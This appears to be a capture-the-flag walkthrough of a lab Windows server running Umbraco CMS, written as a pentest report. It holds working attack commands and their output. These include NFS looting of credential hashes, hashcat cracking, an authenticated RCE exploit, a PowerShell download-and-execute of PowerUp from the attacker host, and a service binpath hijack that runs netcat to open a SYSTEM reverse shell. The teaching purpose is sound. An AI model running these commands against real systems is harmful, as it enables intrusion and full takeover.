





**Vulnerable System**: 
=======================

**Operating System**: Windows Server 2016

**Kernel**: N/A

**Vulnerability Exploited**: Remote Code Execution

**Exploit Used**: Umbraco RCE PowerShell Reverse Shell PoC

**Proof of Concept Code**: https://github.com/Jonoans/Umbraco-RCE

**Vulnerability Explained**: The exploit takes advantage of vulnerability in
Umbraco CMS, which allows remote code execution by sending a specifically
crafted packet as authenticated user.

**Vulnerability fix**: Update to the latest version of software which does not
contain the vulnerability.

**Severity**: **Medium**

**Privilege Escalation Vulnerability**: Weak Service Permissions

**Exploit Used**: N/A

**Proof of Concept Code**: wget "http://10.10.14.224/nc.exe" -outfile "nc.exe"
\| sc.exe config UsoSvc binpath= "C:\\inetpub\\wwwroot\\nc.exe -nv 10.10.14.224
8080 -e C:\\WINDOWS\\System32\\cmd.exe" \| net stop UsoSvc \| net start UsoSvc
\| nc -nvlp 8080

**Privilege Escalation Vulnerability Explained:** A service is ran with SYSTEM
privileges and weak permissions. It is possible for a regular user to modify the
binary path of the service and execute any command on the system.

**Vulnerability fix**: Restrict who has permissions to modify, start or stop the
service as per principle of least privilege.

**Severity**: **High**

Methodology
-----------

-   Port Scanning (nmap)

-   Web Port Enumeration (Browser, Gobuster)

-   NFS Enumeraiton (showmount, mount, strings)

-   Hash Cracking (hashcat64)

-   Low Privilege Escalation (google, browser, RCE)

-   Privilege Escalation (PowerUp, sc.exe, nc)

Reconnaissance
--------------

### Port Scanning (Nmap)

All Ports Scan.

root\@lifesfun:\~\# nmap -sT -Pn -p- -oA allports 10.10.10.180

Nmap scan report for 10.10.10.180

Host is up (0.81s latency).

Not shown: 65514 closed ports

PORT STATE SERVICE

21/tcp open ftp

80/tcp open http

111/tcp open rpcbind

135/tcp open msrpc

139/tcp open netbios-ssn

445/tcp open microsoft-ds

2049/tcp open nfs

5985/tcp open wsman

26651/tcp open unknown

37667/tcp open unknown

47001/tcp open winrm

48560/tcp open unknown

49664/tcp open unknown

49665/tcp open unknown

49666/tcp open unknown

49667/tcp open unknown

49678/tcp open unknown

49679/tcp open unknown

49680/tcp open unknown

53747/tcp open unknown

58453/tcp open unknown

Aggressive, Version and Default Script Scan.

nmap -sV -sC -p 21,80,111,135,139,445,2049,5985 -oA sVsC 10.10.10.180

Nmap scan report for 10.10.10.180

Host is up (1.2s latency).

PORT STATE SERVICE VERSION

21/tcp open ftp Microsoft ftpd

\|_ftp-anon: Anonymous FTP login allowed (FTP code 230)

\| ftp-syst:

\|\_ SYST: Windows_NT

80/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

\|_http-title: Home - Acme Widgets

111/tcp open rpcbind 2-4 (RPC \#100000)

\| rpcinfo:

\| program version port/proto service

\| 100000 2,3,4 111/tcp rpcbind

\| 100000 2,3,4 111/tcp6 rpcbind

\| 100000 2,3,4 111/udp rpcbind

\| 100000 2,3,4 111/udp6 rpcbind

\| 100003 2,3 2049/udp nfs

\| 100003 2,3 2049/udp6 nfs

\| 100003 2,3,4 2049/tcp nfs

\| 100003 2,3,4 2049/tcp6 nfs

\| 100005 1,2,3 2049/tcp mountd

\| 100005 1,2,3 2049/tcp6 mountd

\| 100005 1,2,3 2049/udp mountd

\| 100005 1,2,3 2049/udp6 mountd

\| 100021 1,2,3,4 2049/tcp nlockmgr

\| 100021 1,2,3,4 2049/tcp6 nlockmgr

\| 100021 1,2,3,4 2049/udp nlockmgr

\| 100021 1,2,3,4 2049/udp6 nlockmgr

\| 100024 1 2049/tcp status

\| 100024 1 2049/tcp6 status

\| 100024 1 2049/udp status

\|\_ 100024 1 2049/udp6 status

135/tcp open msrpc Microsoft Windows RPC

139/tcp open netbios-ssn Microsoft Windows netbios-ssn

445/tcp open microsoft-ds?

2049/tcp open mountd 1-3 (RPC \#100005)

5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

\|_http-server-header: Microsoft-HTTPAPI/2.0

\|_http-title: Not Found

Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:

\|_clock-skew: 5m48s

\| smb2-security-mode:

\| 2.02:

\|\_ Message signing enabled but not required

\| smb2-time:

\| date: 2020-08-21T17:40:02

\|\_ start_date: N/A

As per the scan a couple of interesting ports stand out, however only two of
them can help to get low privilege shell. These are port 80 (HTTP) and port 5985
(NFS share)

### Web Port Enumeration

Screenshot below shares homepage of the application hosted n the webserver.
After briefly poking around nothing interesting has been found.

Gobuster then was used to find directories not directly accessing through the
website’s interface.

root\@lifesfun:\~\# gobuster dir -u http://10.10.10.180 -w
/usr/share/wordlists/dirb/common.txt

===============================================================

Gobuster v3.0.1

by OJ Reeves (\@TheColonial) & Christian Mehlmauer (\@_FireFart_)

===============================================================

[+] Url: http://10.10.10.180

[+] Threads: 10

[+] Wordlist: /usr/share/wordlists/dirb/common.txt

[+] Status codes: 200,204,301,302,307,401,403

[+] User Agent: gobuster/3.0.1

[+] Timeout: 10s

===============================================================

2020/08/26 19:29:20 Starting gobuster

===============================================================

/about-us (Status: 200)

/blog (Status: 200)

/Blog (Status: 200)

/Contact (Status: 200)

/contact (Status: 200)

/home (Status: 200)

/Home (Status: 200)

/install (Status: 302)

/intranet (Status: 200)

/people (Status: 200)

/People (Status: 200)

/person (Status: 200)

/products (Status: 200)

/Products (Status: 200)

/umbraco (Status: 200)

===============================================================

2020/08/26 19:30:58 Finished

===============================================================

One directory that stood out was umbraco. Umbraco is an open source content
management system. The screenshot below shows the authentication page for the
newly found application.

### NFS Enumeration

root\@lifesfun:\~\# showmount -e 10.10.10.180

Export list for 10.10.10.180:

/site_backups (everyone)

root\@lifesfun:\~\# mkdir /tmp/infosec

root\@lifesfun:\~\# mount -t nfs 10.10.10.180:/site_backups /tmp/remote/

root\@lifesfun:\~\# cd /tmp/remote

root\@lifesfun:\~\# ls

App_Browsers App_Data App_Plugins aspnet_client bin Config css default.aspx
Global.asax Media scripts Umbraco Umbraco_Client Views Web.config

root\@lifesfun:\~\# cd App_Data

root\@lifesfun:\~\# ls

cache Logs Models packages TEMP umbraco.config Umbraco.sdf

root\@lifesfun:\~\# strings Umbraco.sdf

Administratoradmindefaulten-US

Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d

Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d

adminadmin\@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin\@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50

adminadmin\@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin\@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f

smithsmith\@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith\@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e

ssmithsmith\@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith\@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749

ssmithssmith\@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith\@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32

### Hash Cracking

.\\hashcat64.exe -m 100 -a 0 .\\remote.txt .\\rockyou.txt

hashcat (v5.1.0) starting...

\* Device \#1: WARNING! Kernel exec timeout is not disabled.

This may cause "CL_OUT_OF_RESOURCES" or related errors.

To disable the timeout, see: https://hashcat.net/q/timeoutpatch

\* Device \#2: Intel's OpenCL runtime (GPU only) is currently broken.

We are waiting for updated OpenCL drivers from Intel.

You can use --force to override, but do not report related errors.

nvmlDeviceGetFanSpeed(): Not Supported

OpenCL Platform \#1: NVIDIA Corporation

======================================

\* Device \#1: GeForce GTX 1050, 1024/4096 MB allocatable, 5MCU

OpenCL Platform \#2: Intel(R) Corporation

========================================

\* Device \#2: Intel(R) HD Graphics 630, skipped.

Hashes: 1 digests; 1 unique digests, 1 unique salts

Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates

Rules: 1

Applicable optimizers:

\* Zero-Byte

\* Early-Skip

\* Not-Salted

\* Not-Iterated

\* Single-Hash

\* Single-Salt

\* Raw-Hash

Minimum password length supported by kernel: 0

Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.

This enables cracking passwords and salts \> length 32 but for the price of
drastically reduced performance.

If you want to switch to optimized OpenCL kernels, append -O to your
commandline.

Watchdog: Temperature abort trigger set to 90c

Dictionary cache hit:

\* Filename..: .\\rockyou.txt

\* Passwords.: 14344384

\* Bytes.....: 139921497

\* Keyspace..: 14344384

Driver temperature threshold met on GPU \#1. Expect reduced performance.

b8be16afba8c314ad33d812f22a04991b90e2aaa:baconandcheese

Session..........: hashcat

Status...........: Cracked

Hash.Type........: SHA1

Hash.Target......: b8be16afba8c314ad33d812f22a04991b90e2aaa

Time.Started.....: Sun Aug 23 12:57:06 2020 (1 sec)

Time.Estimated...: Sun Aug 23 12:57:07 2020 (0 secs)

Guess.Base.......: File (.\\rockyou.txt)

Guess.Queue......: 1/1 (100.00%)

Speed.\#1.........: 8595.7 kH/s (2.65ms) \@ Accel:1024 Loops:1 Thr:64 Vec:1

Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts

Progress.........: 9830400/14344384 (68.53%)

Rejected.........: 0/9830400 (0.00%)

Restore.Point....: 9502720/14344384 (66.25%)

Restore.Sub.\#1...: Salt:0 Amplifier:0-1 Iteration:0-1

Candidates.\#1....: bounty11 -\> babypolk07

Hardware.Mon.\#1..: Temp: 48c Util: 42% Core:1468MHz Mem:2504MHz Bus:16

Driver temperature threshold met on GPU \#1. Expect reduced performance.

[s]tatus [p]ause [b]ypass [c]heckpoint [q]uit =\> Started: Sun Aug 23 12:56:59
2020

Stopped: Sun Aug 23 12:57:08 2020

\---------------------------------

It seems now there's a username and a password that can be used.

Low Privilege Exploitation
--------------------------

Upon logging in, a version of the application has been discovered. This can be
used to find an exploit.

A quick google search presents a number of exploits available.

Jonoans’ exploit has been chosen and downloaded from github as per commands
below.

root\@lifesfun:\~\# git clone https://github.com/Jonoans/Umbraco-RCE.git

Cloning into 'Umbraco-RCE'...

remote: Enumerating objects: 29, done.

remote: Counting objects: 100% (29/29), done.

remote: Compressing objects: 100% (20/20), done.

remote: Total 29 (delta 13), reused 23 (delta 7), pack-reused 0

Unpacking objects: 100% (29/29), 14.54 KiB \| 465.00 KiB/s, done.

root\@lifesfun:\~\# pip3 install -r requirements.txt

After all of the requirements have been installed, the exploit is ran, the
reverse shell has been established and the user flag obtained.

root\@lifesfun:\~\# python3 exploit.py -u admin\@htb.local -p baconandcheese -w
'http://10.10.10.180/' -i 10.10.14.224

[+] Trying to bind to 0.0.0.0 on port 4444: Done

[+] Waiting for connections on 0.0.0.0:4444: Got connection from 10.10.10.180 on
port 49697

[+] Trying to bind to 0.0.0.0 on port 4445: Donewi

[+] Waiting for connections on 0.0.0.0:4445: Got connection from 10.10.10.180 on
port 49698

[\*] Switching to interactive mode

PS C:\\windows\\system32\\inetsrv\> type C:\\Users\\Public\\user.txt

Privilege Escalation
--------------------

For privilege escalation PowerUp, a script written by HarmJ0y, is used for quick
enumeration of some easy vectors. It presents us a service with weak
permissions.

PS C:\\windows\\system32\\inetsrv\> IEX (New-Object
Net.WebClient).DownloadString('http://10.10.14.224/PowerUp.ps1')

PS C:\\windows\\system32\\inetsrv\> Invoke-AllChecks

[\*] Running Invoke-AllChecks

[\*] Checking if user is in a local group with administrative privileges...

[\*] Checking for unquoted service paths...

[\*] Checking service executable permissions...

[\*] Checking service permissions...

[\*] Use 'Invoke-ServiceUserAdd -ServiceName SVC' or 'Invoke-ServiceCMD' to
abuse

[+] Vulnerable service: UsoSvc - C:\\Windows\\system32\\svchost.exe -k netsvcs
-p

[\*] Checking for unattended install files...

[\*] Checking %PATH% for potentially hijackable .dll locations...

[\*] Checking for AlwaysInstallElevated registry key...

[\*] Checking for Autologon credentials in registry...

[\*] Checking for encrypted web.config strings...

[\*] Checking for encrypted application pool and virtual directory passwords...

To abuse these permissions netcat is downloaded to the vicitm’s system as shown
below.

PS C:\\windows\\system32\\inetsrv\> cd C:\\inetpub\\wwwroot

PS C:\\inetpub\\wwwroot\> wget "http://10.10.14.224/nc.exe" -outfile "nc.exe"

Once the netcat is downloaded, sc.exe can be used to modify binpath of the
service and insert above download nc executable with reverse shell command
pointing to the attacking machine.

PS C:\\inetpub\\wwwroot\> sc.exe config UsoSvc binpath=
"C:\\inetpub\\wwwroot\\nc.exe -nv 10.10.14.224 8080 -e
C:\\WINDOWS\\System32\\cmd.exe"

[SC] ChangeServiceConfig SUCCESS

After the modifications to the service are done the service needs to be
restarted. However, before restarting the service make sure that netcat is
listening on the attacker machine. As shown below, first stop the service and
then start the service again.

PS C:\\inetpub\\wwwroot\> net stop UsoSvc

The Update Orchestrator Service service is stopping.

The Update Orchestrator Service service was stopped successfully.

PS C:\\inetpub\\wwwroot\> net start UsoSvc

Once the service is restarted the reverse shell command should be executed with
netcat on victim’s machine and the netcat on attacker’s machine should receive
it as show below.

root\@lifesfun:\~\# nc -nvlp 8080

listening on [any] 8080 ...

connect to [10.10.15.156] from (UNKNOWN) [10.10.10.180] 49757

Microsoft Windows [Version 10.0.17763.107]

(c) 2018 Microsoft Corporation. All rights reserved.

C:\\Windows\\system32\>type C:\\Users\\Administrator\\Desktop\\root.txt

type C:\\Users\\Administrator\\Desktop\\root.txt

29c16c8e6518ae7aacee614fe6e1c599
